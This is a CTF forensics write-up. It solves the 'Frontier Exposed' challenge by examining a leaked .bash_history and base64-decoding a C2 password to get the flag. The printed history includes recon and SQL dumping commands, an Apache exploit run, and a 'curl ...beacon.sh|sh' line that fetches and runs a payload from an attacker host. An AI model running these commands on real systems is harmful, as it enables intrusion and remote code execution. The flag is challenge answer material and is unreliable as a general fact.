 # Frontier Exposed Writeup

### This challenge is the first forensics challenge from the HTB University CTF 2024:Binary Badlands, and categorized as "very easy" in difficulty 

By taking a look at the challenge description, we are able to understand what we are looking for.  
``
The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective.
``

Essentially, a **Username** and  **Password**.  

Starting off, we are presented with a website that is actually a directory listing. We see 8 choices, lets click on the first one. The file `.bash_history` is downloaded. Let's open it and see whats inside:  
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/HTB%20University%20CTF%202024/forensics/Frontier%20Exposed/images/frontierexposed1.png)

```
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

*Knowing what a `.bash_history` file is gives a significant advantage in this challenge. Searching online,the definition of bash_history is a stored list of all commands a given user has entered into the system*.  

Aha! A set of credentials is presented:
`
--user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
`  

Searching the rest of the directory, we dont find anything truly valuable, although some things can be noted.
The threat actor gathered information about the domain `http://jackcolt.dev`, then searched for an exploit for the web server that hosts the domain, and successfully exploited the vulnerability.

Let's take another look at those credentials. It appears the password is Base64 encoded?!
Lets decode it using [CyberChef](https://gchq.github.io/CyberChef/).
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/HTB%20University%20CTF%202024/forensics/Frontier%20Exposed/images/frontierexposed2.png)  

And we got the flag!

